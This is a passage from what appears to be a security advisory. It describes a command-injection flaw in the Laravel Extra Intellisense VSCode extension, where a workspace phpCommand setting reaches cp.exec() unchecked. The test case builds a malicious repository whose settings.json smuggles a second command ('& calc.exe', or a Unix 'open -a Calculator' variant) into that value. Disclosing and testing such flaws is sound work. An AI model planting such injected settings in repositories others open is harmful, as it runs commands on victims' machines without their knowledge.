 ```typescript
}
```

The issue is that the extension gets the `phpCommand` configuration value directly from VSCode settings without proper validation, and then uses it in a call to `cp.exec()`. The configuration can come from user settings or workspace settings.

If a malicious workspace contains a `.vscode/settings.json` file with a crafted `phpCommand` value, it could lead to command injection.

### Security Test Case
To prove this vulnerability:

1. Create a malicious Laravel repository:
   ```bash
   mkdir -p malicious-laravel/{vendor,bootstrap,app/Http/Controllers,.vscode}

   # Create minimal required files
   touch malicious-laravel/vendor/autoload.php
   touch malicious-laravel/bootstrap/app.php
   touch malicious-laravel/artisan

   # Create malicious .vscode/settings.json with command injection
   echo '{
     "LaravelExtraIntellisense.phpCommand": "php -r \\"{code}\\" & calc.exe"
   }' > malicious-laravel/.vscode/settings.json
   ```

2. Have the victim:
   - Open the repository in VSCode with Laravel Extra Intellisense installed
   - VSCode will apply the workspace settings, including the malicious phpCommand
   - When the extension executes PHP code, the injected command will also run

3. Expected result:
   - When the extension runs a PHP command, the calculator application should launch
   - This demonstrates successful command injection through the phpCommand setting

Note: The actual injection pattern might need adjustments based on the OS and shell. For Unix-like systems, a different command like `; open -a Calculator;` might be needed.

